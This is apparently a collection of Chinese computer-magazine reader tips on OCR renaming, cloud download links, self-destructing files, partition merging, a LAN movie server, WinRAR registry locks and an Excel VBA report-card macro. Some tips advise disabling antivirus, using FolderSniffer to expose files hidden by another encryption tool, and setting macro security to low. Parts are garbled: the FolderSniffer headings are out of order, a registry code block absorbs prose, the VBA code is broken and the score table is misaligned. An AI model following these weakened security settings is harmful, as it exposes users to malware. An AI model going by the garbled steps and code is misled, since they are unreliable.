- 为了文件名更直观，在识别图片之前，对所有的图片先作一次批量重命名，我使用的是“拖把更名器”。打开程序，选择“添加文件”，选择所有的图片，然后切换到“序号”选项卡，在“模板”中输入“OCR_#”，然后点击“应用”将图像名重命名为“OCR_01、OCR_02……”的规格。
- 安装 ABBYY FineReader 10 OCR 软件，然后打开 ABBYY FineReader 10 程序，选择“打开”命令，在“打开图像”对话框中，点击“选项”，在“扫描/打开”选项卡中，“常规”设置为“不要自动读取和分析已获取页面的图像”，“确定”返回，然后任选一个需要识别的图像，点击“打开”按钮打开图像。
  ABBYY FineReader 的主窗口分为三个部分，从左至右依次为“页面窗口”、“图像窗口”、“文本窗口”，打开的图像位于图像窗口中，选择图像窗口工具栏的“绘制文本区域”工具，按下鼠标左键，在图像上框选需要进行文字识别的区域（我这里用的是医保结算单，选择的是“住院号”区域）。选中的区域会用绿色矩形显示，然后选择“读取”命令，查看右侧文本窗口中的识别结果是否正确，确定无误后选择“区域→保存区域模板”命令，将当前所选的区域保存为的区域模板文件“按住院号识别.blk”，针对不同的区域，可以创建不同的区域模板文件。
- 打开 ABBYY Hot Folder程序，选择“新建”，在“打开图像”步骤窗口中，点击“源文件夹设置”项的“浏览”选择存放图像的文件夹，其余按默认设置即可，然后点击“下一步”。
  在“识别语言”选项中，点击下拉列表，根据实际处理需求选择需要的识别语言，选择“更多语言...”可以进行多选，一般选中“简体中文”、“英语”即可满足识别需求；点击“使用区域模板”右侧的“浏览”，选择打开之前保存的区域文件“按住院号识别.blk”，然后点“下一步”。
  在“保存文档”步骤窗口中，“输出文件夹”默认和图像为同一文件夹中，可以点击右侧的“浏览”来更改，保存格式选择“文本(*.txt)”，点击右侧的“格式”按钮，切换到“TXT”选项卡，只勾选“保留换行”复选框项，编码设置为“简体中文(GB2312)”，确定返回，“文件选项”选择“为所有页面创建一个文件”，输入文件名“按住院号识别”，点击“确定”。ABBYY Hot Folder 开始查找识别文件夹下的所有图像文件，并将识别结果保存为“按住院号识别.txt”。
- 打开“拖把更名器”，添加所有的图像，并按照文件名进行顺序排列（注：一定要按照文件名进行顺序排列，因为 ABBYY 是按照图像的文件名顺序进行OCR识别并生产txt文件的，否则会造成图像所改名称与实际内容对应不上），然后执行“调用文本文件命名”命令，选择 ABBYY生成的文本文件“按住院号识别.txt”，在“拖把更名器”窗口的预览项中可以看到更名结果，最后点击“应用”即可将所有的图像按照指定区域的名称进行批量重命名。

注：使用 ABBYY 的区域模板进行批量识别图像文件时，要求所处理的图像布局规格必须一致，如果布局规格不同，应该使用 ABBYY 重新建立区域模板文件。
（挑战者：陶长俊）

## 妙用转换器 揭开云端神秘面纱

大家都知道云端平台上有好多优秀的绿色软件，一般情况下都需要通过云端下载，其实想获得这些软件的真实下载地址也不是不可能，像迅雷快车的专用下载链接一样，云端也有自己的专用链接，只需通过转换便可获得真实链接，然后通过其它下载工具下载即可。
以下载evernote为例，首先进入evernote云端版的下载页面，在下载按钮上右击获得链接地址，然后打开云端地址转换器页面（http://vsean.net/stp），将获得的链接地址粘贴进去，点击转换，便会获得evernote的真实下载地址，点击下载即可。
（挑战者/吕晟曦）

## 绝对机密！重要数据用完自动销毁

在谍战类影视剧中，经常看到这样的场景——某个谍报人员在收到机密情报后，在阅读之后，就会立即将其销毁，防止其落入敌方手中。我们在使用机密数据时，也面临如何保密的问题。在很多情况下，我们非常希望在阅读机密数据后，即可将其自动销毁，这样可以大大提高数据的安全性，避免数据泄露的风险。本文简单介绍几种数据自动销毁的技术，希望对大家有所帮助。

### 机密信息，阅读后立即销毁

当您想发送包含机密内容的信息，又不想让其他人知道，该怎么办呢？最好的办法就是将机密信息包含在特殊的网址链接中，当对方阅读过一次之后，该链接就会自动失效，这样无关人员即使知道该链接，也无法阅读其内容。这听起来有些高科技的味道，不过我们依靠Privnote网站提供的安全服务，即可以将上述想法变成现实。打开网址“https://privnote.com”，在页面右上角的语言列表中选择“简化字”项，可以得到中文简体界面。

### 机密文件，下载后自动销毁

当然，仅仅发送具有自毁能力的文本链接，还是远远不够的。在很多情况下，我们希望发送具有自毁能力的文件下载链接，这样当收件人下载该文件后，对应的下载链接就自动失效，防止别人非法获取机密文件。这对于XoomFile这款免费软件来说简直是小菜一碟。下载地址：http://www.xoomfile.com/software/xoomfile.exe。
当初次使用XoomFile时，在向导窗口中选择“I want to register new XoomFile.com account”项。在下一步窗口中依次输入您的姓名、账户名称、密码以及邮箱地址，点击“Next”按钮，完成XoomFile账户创建操作。之后XoomFile可以自动登录到远程服务器上。
在桌面上出现类似于黑洞的XoomFile悬浮窗，您可以将其拖动到桌面任意位置。当鼠标指针移动到XoomFile悬浮窗上，悬浮窗中会出现奇特的动画效果。当需要通过XoomFile传输机密文件时，只需将目标文件拖动到XoomFile悬浮窗中，在文件发送窗口顶部显示文件的名称、类型、大小等信息。
在“To”栏中输入目标邮箱地址，您可以输入多个邮箱地址，每一行对应一个邮箱地址。在“Subject”栏中可以设置邮件主题，在“Comments”栏中可以输入描述信息。勾选“Protect this file with password”项，在其右侧输入密码。以后下载本文件时，必须输入预设的密码。点击“Send file”按钮，XoomFile就可以将该文件发送出去。
当您的好友打开邮箱后，会收到XoomFile发送来的邮件。在其中显示具体的文件发送信息，注意其中“FILE PICKUP ID#”栏中显示的就是该文件的安全下载码。您的好友必须安装运行XoomFile，在XoomFile悬浮窗右键菜单中点击“Pickup file”项，在弹出窗口中输入得到的文件安全下载码，点击OK按钮，XoomFile可以据此执行文件下载操作。
如果为该文件设置了密码的话，必须输入正确的密码，才可以顺利下载该文件。下载的文件默认保存在我的文档“My Downloads”文件夹中。在文件传输和下载过程中，XoomFile使用高强度加密算法对数据进行加密处理，来保证数据传输的安全性。
当文件下载完成后，XoomFile可以自动将该文件从远程存储空间中删除。
您如果将文件发送到多个邮箱，不同邮箱的主人就可以得到各自的文件安全下载码，每一个邮箱主人都据此执行一次文件下载操作。
注意，对于免费用户来说，文件只能在XoomFile服务器上存储72小时。

### 机密文件，下载后自动销毁

如果您想放宽文件共享的安全性，最好的办法是为其设置一个有效期限，同时为其添加访问密码。这样做的好处显而易见，在有效期内可以使用密码自由下载文件，超过有效期文件共享就会失效。有了SafeCopy这款在线存储软件的帮助，上述问题就可以迎刃而解。SafeCopy使用高达448位军用级安全算法保护在线数据的安全，为您提供免费的3G在线存储空间，提供了文件自动备份、安全文件共享、在线文件搜索、下载、浏览等服务。下载地址：http://c0648682.cdn.cloudfiles.rackspacecloud.com/SafeCopySetup.exe。
当初次使用SafeCopy时，在配置向导界面的“账户”面板左侧选择“3G 免费”项，可以得到3G的在线存储空间。这对于免费用户已经足够了。输入您的电子邮件和密码，点击“下一步”按钮完成账户的注册操作。在“文件夹”面板中选择备份的目标路径。点击“下一步”按钮，完成SafeCopy的配置操作。点击“Ctrl+Q”键，进入SafeCopy主窗口后，可以立即对预设的路径执行备份操作，这里我们主要谈谈如何实现文件安全共享。
在资源管理器中选中目标文件或者文件夹，在其右键菜单中点击“SafeCopy→上传和共享”项，可以将其上传到您的在线存储空间中。当上传完成后，在共享页面中的“收件人”栏中输入对方的E-mail地址，在“主题”栏中输入邮件的主题，在“信息”栏中显示文件共享链接。如果勾选“通过密码保护共享部分的访问”项，则可以为该共享链接设置密码。在“有效期”列表中选择该共享链接的存活期，包括一天、一周（默认）、无限等。点击“发送并启用共享”按钮，即可向对应的邮箱发送包含共享链接的邮件。对方收到该邮件后，在“点击这里下载”栏中看到共享链接地址，在“文件用密码保护”栏中看到是否使用了密码保护机制。点击该共享链接，如果预设了密码的话，必须输入正确的密码。之后在下载页面中点击共享文件名链接，就可以下载该文件了。一旦超过了有效期，对应的共享文件链接就会自动失效。
（文/郭建伟）

## 旧硬盘拆下收藏 存细目随时检索

电脑存储空间明显吃紧，于是我决定买一块2TB的大硬盘。为了不增加电脑负担，我不打算直接加入这块硬盘了事，而是打算用它来换下现有的一块存放备份资料的500GB硬盘。拿下的这块500GB资料盘中有许多有用资料，需要收藏起来。但是，如果万一遇到需要旧资料的时候，我如何才能知道所需资料在不在这块硬盘中，这却成了问题。拿出来接上搜索显然太麻烦。于是，我想到了为现有硬盘保存细目的办法。这样，万一自己需要搜索资料，先从细目中查一下，如果有自己需要的资料，就可以拿出硬盘接上拷贝，不至于因为没有资料却白白拿出来搜索半天，白费时间。

### 一、自编万能资料生成器保存资料

如果手头上没有现成的用来生成资料索引的工具软件，或不喜欢装工具软件来解决问题，那么，单靠一个系统的简单命令就可以构造出一个万能的资料目录生成器。建立万能文件目录生成器的方法很简单，所用到的工具只是一个系统的记事本，在其中编辑一行命令即可。然后是一个非常普通的文件改名操作。具体方法是：

#### 第一步：在记事本中输入如下命令：

```
DIR *.* /B /ON /S >LIST.TXT
```

注意命令中的所有字符均是半角英文字符，大小写均可，其间有半角空格的地方一定要加空格，切不可连写。因空格缺失或半角字符错拼成全角，都会造成命令不能正确执行，这是不熟悉批处理和命令行操作的读者常常犯的错误，这一点读者朋友必须注意。

#### 第二步：
将文件以“万能文件列表生成器.txt”的名称存盘，然后在资源管理器中将文件名的扩展名改为BAT，注意扩展名改名要从文件夹选项中去掉操作系统的隐含扩展名选项或者用文件改名软件进行，当然也可以用DOS命令REN直接执行。

#### 第三步：
经过以上操作，我们得到一个可以直接运行的批处理文件“万能文件列表生成器.BAT”，这就是我们需要的万能文件目录生成器。利用这个生成器，我们就可以生成自己需要的任何文件列表了。在具体使用的时候，如果你要给某块磁盘的某个分区生成目录，那么，就将这个资料目录生成器拷贝到要生成目录的磁盘根目录下，执行一下，便可得到该分区的所有文件夹和文件的目录清单文件LIST.TXT；如果你只是要生成某个文件夹及其下各级子文件夹中包含的文件列表。
参数说明：DIR命令中，*.*表示所有文件；/B表示使用 bare 格式（只列出文件名和扩展名）；/ON表示按名称排序；/S表示包含指定目录和所有子目录中的文件；>参数表示生成的列表要定向到某个文件或设备中；LIST.TXT是我们定义的用来存放生成列表的文件。

### 二、借用工具软件保存和检索资料

如果你习惯于使用工具软件，那么可以使用能够生成和管理磁盘列表的工具软件。这类软件很多，我们以Advanced Disk Catalog（简称ADC）为例来说明。该软件本刊曾有过介绍，容易上手，因此这里只讲如何实现我们的需求。
第一步：运行ADC，点击工具栏上的“增加目录卷标”按钮，在弹出的驱动器选择窗口中选择需要生成目录的驱动器（如本例为即将要拆下的硬盘E盘）。
第二步：在软件对资料盘E进行遍历扫描之后，就会弹出一个窗口，要求你为生成的目录列表命名，给你的资料列表命名（比如：“旧资料硬盘”），点击磁盘图标保存。

## 中英文混合音频巧分离

问题解析：录下的音视频中，要想把外语与中文分离开来，可以有多种方法，关键在于能快速对原视频进行分割和合并操作。这里选用‘Wondershare DVD Converter Ultimate’软件，具有超强的视频音频截取、合并能力，操作快捷方便。

步骤一：启动软件，通过‘add Video’按钮，打开视频文件。
步骤二：点击‘Clip’按钮，进入到Clip窗口。在此窗口，可以进行播放、分割与合并操作。通过播放按钮先播放视频音频，并记录下所有中文、外语音频片段的起始时间数据。暂停播放后，通过‘剪刀’新片段按钮在窗口下部的文本区输入起始时间（先输入中文翻译时间片段），这样就可以把所有中文翻译片段分离出来。选中‘Merge into One File’（合并为一个文件）选项后，就可以点击‘OK’按钮，返回主界面。
步骤三：保存操作。在主界面，点击‘profile’右侧的向下小三角，可设置保存类型，视频可选‘mpg’格式，音频可选‘mp3’格式。设置完毕后，点击‘Convert’按钮，就可以得到所需中文翻译。
步骤四：重复上面过程，再完成外文部分的分割、合成，即可得到外文部分音频。
（挑战者：孙文厚）

## 自制脚本获取云端下载地址

云端的专用链接并没有经过加密，`[stp://]` 到 `[name=...]` 之间的字符便是要下载的lva文件名。经过几次测试之后发现，只需要在 `[http://d?(1-6).yunduan.cn/pieceinfo/]` 后加上文件名以及后缀.lva，就是我们要的http下载地址。根据这个原理自己写好了一个便于转换的脚本，格式如下：

```
<html>
<body>
<script type="text/vbscript">
Randomize
stp = InputBox("输入云端专用链接地址", "输入", "stp://")
If LCase(Left(stp, 6)) = "stp://" And Mid(stp, 47, 1) = "/" Then
geturl = "http://d" & Int(Rnd * 6 + 1) & ".yunduan.cn/pieceinfo/" & UCase(Mid(stp, 7, 40)) & ".lva"
document.write("<p>转换地址成功，请右键另存为</p>")
document.write("<p><a href='" & geturl & "'>" & geturl & "</a></p>")
Else
document.write("<p>stp格式不正确，请检查输入的地址</p>")
End If
document.write("<p>刷新可重新输入</p>")
document.write("<p>by <a href='mailto:154529019@qq.com'>yelo</a></p>")
</script>
</body>
</html>
```

要下载软件时，进入到要下载软件的网页，右键下载图标，选择‘复制快捷方式’。然后打开已写好脚本的网页decoding.html，粘贴刚才复制的stp地址，点击确定就能获取转换好的http地址了，而接下来要做的就只是右键地址，目标另存为咯。
（挑战者/黄泽宇）

## 合并分区 数据无损有妙招

我的电脑硬盘中有四个分区，E分区是放备份数据用的，后来使用中发现E分区空间紧张，但后面的一个分区中还有20GB左右的空间闲着，希望能借用这20GB空间并合并到E分区上，同时不要伤害到所有已有分区中的数据。但是，因为常听网友说因选择和使用工具不当，造成已有分区或数据丢失的惨剧发生，于是犹豫了。身边的同事给我安装了一款挪移数据的好软件，并传授了我挪移空间和数据的方法，窗口环境下直接操作，感觉确实安全方便可靠。

### 一、准备空间待借用

我所用的工具是赫赫有名的专业分区管理工具Acronis Disk Director Suite v10.0.2160特别版（以下简称ADD）。
第一步：首先启动ADD，选择用户界面模式为Automatic Mode，按OK按钮，进入软件主界面。由于我希望借用第一块硬盘E盘之后的一部分未划分空间E盘，因此这里选择Wizards菜单中的Create Partition命令建立分区。
注：如果是借用已有分区的空间，操作方法基本相同，只是在这里要选择Increase Free Space选项即可。由于利用未分区空间的情况相比借用已有分区空间的步骤要更复杂，因此我选择借用未划分空间的案例来说明，掌握了此案例，对已有分区空间的借用操作就更不在话下了。
第二步：接下来选择Unallocated space并进入下一步。

### 二、合并利用新空间

下面我们将准备好借用的新空间分配给E盘使用。对于希望借用已有数据空间的用户来说，操作方法与以下方法非常类似，这部分用户可直接依照下面的方法进行空间借用。
第一步：选择ADD主窗口Wizards向导中的Increase Free Space选项，在接下来的窗口中选择要增加空间的分区盘符（这里是E盘），然后进入下一步。
第二步：选择要‘奉献’出空间的磁盘分区，这里选择我们先前已经准备好了的最后一个分区G盘，然后进入下一步。
第三步：在建立分区窗口中点击选择第一块硬盘最后面的一个绿色分区空间色块，然后进入下一步。
第四步：由于我们要借用最后一个分区中所有的剩余空间，因此，将滑块拖动到最右侧处。
第五步：接下来选择Logical选项并进入下一步，以便先给未划分空间创建一个逻辑区。
第六步：选择分区的类型，这里我们选择默认的NTFS格式即可，输入分区标签，这里可以留空直接进入下一步。
第七步：这时会看到要借用空间的分区已经是一个分配有盘符的空间了，单击Finish按钮完成借用分区空间的有效性建立。
第三步：用拖动滑块或输入分区大小数值的方法定义追加分区后的新分区的空间大小。这里因为我们要完全借用其空间，所以将滑块滑动到最右侧。
第四步：进入下一步窗口，我们发现E分区的空间已经显示为扩大后的值，点击Finish按钮完成设置。
第五步：至此，空间挪移操作并没有真正完成，上面完成的只是分配计划，正式的分配和数据挪移工作尚未开始。我们需要点击ADD软件窗口工具栏上的旗帜按钮开始实质性的空间挪移操作，也可以通过‘Operations→Commit’命令来开始挪移过程。
第六步：严重提醒！！！接下来的窗口操作，是非常关键的一步。窗口中上端列出了即将进行操作的步骤名单列表，也就是你上面定义的挪移步骤，你需要在此仔细看清楚，如果选错了分区将会出现错误的分区借用，将会引起非常麻烦的后果。确认无误之后，点下Proceed按钮，ADD就开始为你进行空间挪移了。

小知识：
Acronis Disk Director Suite v10.0.2160是一款组合了众多流行磁盘工具的软件包，除了Partition Manager模块可以在不丢失磁盘数据的条件下对分区进行空间借用、复制和数据无损移动外，Boot manager模块可创建多系统引导环境，Disk editor模块可让你手动编辑磁盘数据，Partition Recovery模块可以帮你恢复丢失或删除的分区和数据，硬盘管理可以一“软”搞定！
（文/黄一凡）

## 免费打造个性化多功能键盘

你是不是习惯于在桌面上放置一大堆常用软件（比如上网的、听歌的、看电影的）的快捷方式，在需要时双击执行？还是通过点击电脑屏幕左下角的开始按钮，在程序菜单中寻找自己要运行的软件或者是翻山越岭，绕过层层文件夹的阻隔，找到某个软件的安装目录，再双击目标软件的图标运行……上述方法辛苦而又低效。如果你还是这样操作电脑的话，那么你就真的out了。
要提高操作的效率，买个多功能快捷键的特色高档键盘是个不错的选择，但那毕竟要花银子啊，而且多功能键盘的快捷键再多，也是数量有限的。特色键盘的键位设置也未必符合每个人的操作习惯。如果能用普通键盘直接打开软件或是执行某项功能（比如关机、重启、窗口最小化、音量调节等等），而且要来得像多功能键盘那样直观，那就省去了用鼠标点击的烦恼，就等于购买了一个带有100多个快捷键的多功能键盘。今天我使用一款免费软件——Qliner Hotkeys来实现这一想法（软件下载地址http://www.qliner.com/hotkeys/）。
Qliner Hotkeys可以自定义键盘快捷键，只需要通过Win键（就是键盘上带Windows旗帜标记的那个键）和对应的键盘按键，就可以执行你指定的软件或某个功能。执行Qliner Hotkeys主程序，屏幕上会弹出窗口提示，长按键盘上的Win键，即可调出键盘按键设置界面。
在界面上用鼠标右击各个按键（有部分特殊按键比如回车、删除等按键不能被指定），可以为该按键指定对应打开的软件或功能，过程非常简单（和一般打开软件的过程类似，但却是一劳永逸的）。其中‘Browse…’按钮用来指定要打开的软件，‘Tool’按钮用来指定特殊功能，比如关机、截图、显示时钟、控制音量等等。
已经被指定的按键上会有相应的软件或功能图标，也可以右击删除原有的对应关系，重新指定，还可以拖动已经被指定的软件或功能图标到未使用的按键上，重新确定对应关系。鼠标右击键盘空白处，可以显示软件设置菜单，比如设定长按Win键的时间（一般1秒较好），你还可以选择键盘的显示的类型，比如笔记本键盘或是普通键盘。
软件安装后，默认是随机运行的，不要改变这个设置，否则你就享受不到随时随地调用软件的便利。在调用软件时，只要按住Win键（左右皆可），同时按相应的键盘按键，就可以打开你事先指定的软件或功能了，不需要先打开Qliner Hotkeys主程序。
这个软件除了可以指定操作快捷键以外，还可以为键盘按键进行重新映射。比如当你键盘上某个键出故障时，你就可以用这个软件重新指定另外一个按键，来代替出故障的那个按键。这个软件对普通键盘和笔记本键盘都适用。软件在Win7系统（32位）下测试通过。
（文/赵军才）

# 新片大家看 自架在线影院来分享

下载了新电影，单位的其他同事也要看。如果采用常规方法在局域网中共享，然后通过网络传输，这样速度比较慢。另外用U盘拷贝也很麻烦，还容易传播病毒。其实有一个很好的办法，就是用Mongoose架设一个在线影院。以后有了好看的新电影后，同事们就可以通过网络在线点播了。

## 1. 安装配置 Mongoose

先在存放电影的电脑上下载安装Mongoose 2.8，安装过程中把装SSL(https访问)、安装为服务、开始菜单快捷方式3个可选的组件都选上，安装完成后Mongoose就已经以服务方式启动了。安装完成后需要配置Mongoose，配置也很简单，先修改根目录为电影文件所在的目录，修改前先停止服务，单击“开始”，在“程序”组中找到 Mongoose web server，单击Stop service，停止服务。再打开配置文件mongoose.conf，默认在C:\Web\mongoose目录中，然后找到root，Mongoose默认的网站根目录为C盘，修改其后面的路径为电影文件所在的目录。另外在PORTS项里可以设置端口号，默认使用80和443端口，其他的都可以使用默认的，修改完毕后保存，然后单击“开始”，选择“程序”，在Mongoose web server 中单击Start service，启动服务，再单击Start in console让启动信息显示在DOS命令行窗口中。

## 2. 在线观看电影

之后其他同事可以在电脑中打开网址http://172.16.3.208，其中172.16.3.208为存放电影的电脑IP地址，能看到名为index of的网页，里面有电影文件列表，包括电影名称、大小等信息。记住电影文件的URL网址，当然也可以右键单击电影名称，选择“属性”，在窗口中把电影的URL地址复制下来，然后用支持网络地址播放的播放器就可以在线播放了。一般迅雷看看播放器、QQ影音、暴风影音等都支持网络URL地址播放，这里以迅雷看看为例，打开播放器，单击“URL地址”，在弹出的窗口中把刚才看到的电影URL网址输入，单击“确定”按钮，这样就可以在线播放了，非常方便，速度也非常快，一般只要刚开始时缓冲片刻就可以流畅播放了。

（文/贺全荣）

# 拿什么拯救你 我的隐私文件

很久以前，加密了一些文件，去祭奠逝去的情感。今天突然想去回味一下曾经的美好，却只记得密码，早已经忘记了当时使用的什么加密软件加的密啦。电脑换了好几台了，茫茫软件中，不知道该怎么找到当初的加密软件了。几经周折，最后用“文件夹嗅探器（FolderSniffer）”解决了这个遗憾。

图标，就可以扫描文件，选择需要扫描的磁盘文件夹的位置进行扫描，也可以直接扫描隐藏文件所在的整个磁盘，后者将会把该磁盘下所有的隐藏文件扫描出来，点击“确定”进行扫描。从列表可以看到，扫描出来的带有mem后缀的文件，这就是我要找的文件。

可以直接使用快捷拷贝键Ctrl+C和Ctrl+V复制拷贝，也可以选中文件，右键选择“复制到文件夹”或者“移动到文件夹”的方式，再修改拷贝出来的文件的后缀名即可。

## 一、运行注意

## 三、测试文件类型

## 五、其他场合的实践

解压缩下载后的“文件夹嗅探器”需要关闭杀毒软件的实时杀毒功能，我的迈克菲还没等我解压缩完，就把Folder Sniffer.Exe干掉了。软件不需要安装，双击运行Folder Sniffer.Exe程序，就能打开软件界面。

还原文件需要知道文件的类型，如果忘记了自己加密的文件是什么格式的，可以采用测试文件类型的方法，以便下一步工作进行，先选中文件，再右键选择“测试文件类型”。

刚刚看见有人说使用宏杰加密软件可以加密隐私文件，是不是也可以高枕无忧呢？赶紧下一个宏杰加密软件，用咱们的武器来嗅嗅，看能嗅出来不。用宏杰随便加密几张图片，在正常的状态下打开含加密文件文件夹的情况，只能看见我预留的一个记事本。恢复出来可以得到加密的照片，看来天下没有破不了的锁啊。

## 二、扫描文件

## 四、恢复文件真身

单击菜单栏里的“文件”选项，或者点击“扫描”

将文件拷贝出来，修改后缀名mem为原文件的后缀名，就可以恢复文件的本来面貌了。

这个软件支持NTFS文件系统，还支持Win7系统。读者朋友们可通过华军软件园搜索下载该软件。

（文/海芝灵）

# 打印网页 只“剪”你需要的

日常生活中，我们常常需要将一个有用的网页打印下来保存或参考。但是，由于目前的网页中大多数都掺杂着一些广告信息，即使不是广告信息，打印出来的内容也不一定尽是自己需要的那部分，阅读时影响视线和心情。既如此，还不如打印前把网页“裁剪”一下。

打开http://www.printwhatyoulike.com网页，在“Enter a URL”中输入需要打印的网页地址，单击“Start”，就可以打开网页编辑界面。在编辑界面中，移动光标，可以看到光标所指内容出现红色方框，单击可选定方框中内容，被选定区域显示黄色，且会弹出悬浮菜单，单击菜单中的“Remove”可将选定内容清除，可以同时选择多处内容，然后通过“Remove”进行一次清除。另外，还可以对选定内容进行Resize（改变大小）、Text Size（调整文字大小）、Remove Background（移除背景）等操作。裁剪完成后，单击左侧“Print”，即可打印。小贴士：还可以将裁剪后的网页保存为PDF或Html格式，单击左上角的“Save as”即可。

惠普推出的网页输出打印软件“HP Smart Web Printing”（下载地址：http://mydown.yesky.com/driver/print/hp/22/438522.shtml）在裁剪网页上有其独到的一面。软件安装后，打开IE浏览器，在浏览器右侧可以看到“剪辑簿”一项，这里就是用来存放打印内容的。按住鼠标左键，在网页中框选出需要打印的内容，选中后，单击“剪辑”，则选中内容放入“剪辑簿”中。同样的方法，可以把其他内容剪到“剪辑簿”之中，最后单击“打印剪辑”即可。

## 1. 选中后打印

## 2. 在线剪切网页最方便

## 编辑提示

如果需要打印的内容只是网页中一段连续的部分，问题就简单了，在网页上选中需要打印的那部分内容，然后依次单击“文件→打印”（或右击选中内容，选择右键菜单中的“打印”），在“页面范围”中选中“选定范围”，再单击“打印”即可。

大部分情况下，我们需要把网页中许多不连续内容打印出来，一个比较简便的方法，就是在线进行裁剪、编辑。

## 3. 专用裁剪工具最专业

除了裁剪网页外，将网页中有用信息复制到文字处理软件中打印，也是人们常用的一个办法。如果你需要打印的信息是一段或一篇格式比较单一的文字，用这种方法摘录打印再合适不过了。如果在复制时被一些网页中隐含着的格式所困扰，无法删除多余的格式，这时你可以选择先用记事本为中介进行格式过滤的方法，具体做法是：先将网页文字复制到记事本中，再从记事本中复制到Word等文字处理软件中打印，这样问题就简单多了。

（文/曹春华）

# 给你的WinRAR加把锁

常使用WinRAR以固定密码加密的人，他们可能自己已经定义了默认密码、工具栏上的特定按钮、文件压缩解压路径等常用选项。但是，如果遇到别人使用自己的电脑中的压缩软件，可能会改变这些选项，给自己今后工作造成不必要的麻烦。那么，能不能将WinRAR菜单或设置选项等锁定，不让人随便修改呢？下面的方法正可以帮你解决这个问题。启动“记事本”，在其中输入以下语句：Windows Registry Editor Version 5.00

```
[HKEY_LOCAL_MACHINE\SOFTWARE\WinRAR\Policy]
"Menu"=dword:00000000
"Settings"=dword:00000000
编辑完成后，将该文件保存为limitrar.reg文件，再双击并执行这个REG文件，把它导入注册表。启动WinRAR，你会发现WinRAR菜单无法使用，而且按Ctrl+S键也无法调出“设置”和“选择工具栏按钮”窗口，相对安全多了。把以上语句中的00000000改为00000001，另存为unlim.reg，双击导入unlim.reg文件即可恢复菜单并允许使用“设置”窗口。
```

以上操作在Windows XP中通过。小提示：在如上的命令行中，Menu项设置为0/1，用来禁止/允许WinRAR主菜单，而Settings项设置为0/1，用来禁止/允许“设置”和“选择工具栏按钮”对话框。

（文/向永华）

# 巧用VBA建立学生考试成绩通知单

每到学期期末临近，恐怕最忙的就是班主任了，不仅要统计学生成绩，还要填写家长通知书，更怕的是给每位学生写评语。一个50人的班级足以让你填写到才源枯竭，手脚抽筋！我们可以利用Excel中的VBA来自动完成所需任务，方便快捷，以收到一劳永逸之效。

## 第一步：学生成绩前期整理

在Excel工作簿中建立4个表，分表起名为“成绩”、“名次”、“通知书”、“评语”，在“成绩”表中存入的是期末考试成绩，在“名次”表中存入的是历次考试学生的年级排名，在“评语”表中存入的是班主任评语（班主任可以从网上搜集并整理到表中），而“通知书”表中则是临时生成的所需通知书。其中“成绩”、“名次”表中的字段列可以增加或是删除，各个表如图1、图2、图3所示：

| 序号 | 评语 |
|---|---|
| 1 | 你是一位活泼可爱的女孩，似乎不知道什么是忧愁，老师常看到你欣然的笑脸，也爱看你为集体，为大家热情服务时认真的态度，不过，你的学习又常常让我不安，一会儿成绩优异，一会儿出现低谷，能说说这些现象的原因吗？ |
| 2 | 在我们相处的日子里，你是一位聪明可爱，真诚坦率，兴趣广泛，想象力丰富的小机灵，让我实在难以忘记，在你即将开始新生活之际，我真诚地祝愿你拥有一个灿烂的未来，开辟一片任你翱翔的天地。 |
| 3 | 生活就像大海，友情就像大海中的浪花，大海有了浪花更加美丽，生活有了友情更加甜蜜，愿你珍惜和同学间的友谊，用纯真和善良去浇灌友谊之花。 |
| 4 | 别看你个头小，却拥有一个聪明的大脑，你思想活跃，反应敏捷，学什么都快，不过，作业时字迹潦草可是不太好的哟，如果你能改变这个毛病，勤奋努力地学习，一定会很有出息的。 |
| 5 | 你聪明乐观，爱说爱笑，作业总是那么认真，工工整整的字迹透露着你求知的执着，课堂上，老师总忘不了你那双求知的大眼睛，回答问题时，你的态度是那么大方，声音是那么宏亮，你一定知道“书山有路勤为径”吧！相信你一定能做到！ |
| 6 | 你听说过这样一句名言吗？不积跬步，无以至千里；不积小流，无以成江海，学习上没有捷径可走，必须脚踏实地，持之以恒，锲而不舍，才能学有所获，希望你时时用这句话来勉励自己，不要荒废了你良好的天资。 |

```
VBAProject (生成学生考试成绩通知单)
- Microsoft Excel 对象
    - Sheet1 (成绩)
    - Sheet2 (名次)
    - Sheet3 (通知书)
    - Sheet4 (评语)
    - ThisWorkbook
- 模块 (Modules.xla)
- 分栏工具 (分栏工具.xla)


Private Sub Worksheet_BeforeDoubleClick(ByVal Target As Range, Cancel As Boolean)
Dim ch As ChartObject
Dim FinalColumn
Dim rng As Range
Dim IRange As Range
Dim ShujiuColumn As Range
Dim i As Integer
Dim j As Integer
Dim zh As String
Dim c As String

If Cells(1, 2) = "评语" Then
    FinalColumn = Cells(Target.Row, 255).End(xlToLeft).Column
    '判断该行是否为空，如为空则退出
    If ShujiuColumn = FinalColumn - Target.Column Then
        GoTo LABEL
    End If
    '转到评语表
    Sheets("评语").Select
    ActiveCell.EntireRow.Select
    i = ActiveCell.CurrentRegion.Columns.Count
    ...


Option Explicit

Private Sub Worksheet_BeforeDoubleClick(ByVal Target As Range, Cancel As Boolean)

If Cells(1, 2) = "评语" Then

    '复制字段，并添加标题
    Sheets("评语").Select
    ActiveCell.Select
    Selection.Copy

    Selection.Copy
    Sheets("通知书").Select
    Sheets("通知书").Range("B27").Select
    ActiveSheet.Paste

End If

End Sub
```

通过双击“评语”表中包含“评语”的列中的非空单元格，即时将选中评语复制到“通知书”工作表中相应的位置，如果对评语不满意还可以进行修改。最后形成的“通知书”效果如图6所示。

### 友情提示：

要想使上述VBA程序能够运行，需要对Excel中宏的安全性进行设置：点击“工具→宏→安全性”，将宏的安全性设置为“低”，如图7所示

| 序号 | 姓名 | 语文 | 代数 | 英语 | 物理 | 化学 |
|---|---|---|---|---|---|---|
| 1 | 0101 | 陈林 | 92 | 97 | 143 | 106 | 84 |
| 2 | 0102 | 李祖成 | 93 | 93 | 133 | 105 | 78 |
| 3 | 0103 | 崔艳娇 | 95 | 103 | 127 | 115 | 91 |
| 4 | 0104 | 吴琼 | 95 | 111 | 120 | 122 | 94 |
| 5 | 0105 | 李其 | 93 | 112 | 106 | 122 | 80 |
| 6 | 0106 | 蔡晓昕 | 91 | 114 | 132 | 105 | 92 |
| 7 | 0107 | 汤秋月 | 87 | 96 | 130 | 118 | 94 |
| 8 | 0108 | 徐欢 | 91 | 108 | 126 | 112 | 73 |
| 9 | 0109 | 华淑芳 | 96 | 120 | 127 | 120 | 79 |
| 10 | 0110 | 刘欣成 | 96 | 100 | 113 | 119 | 90 |
| 11 | 0111 | 边琪 | 83 | 97 | 113 | 114 | 74 |
| 12 | 0112 | 付玉爱 | 96 | 94 | 115 | 117 | 91 |
| 13 | 0113 | 赵悦 | 93 | 105 | 143 | 119 | 94 |
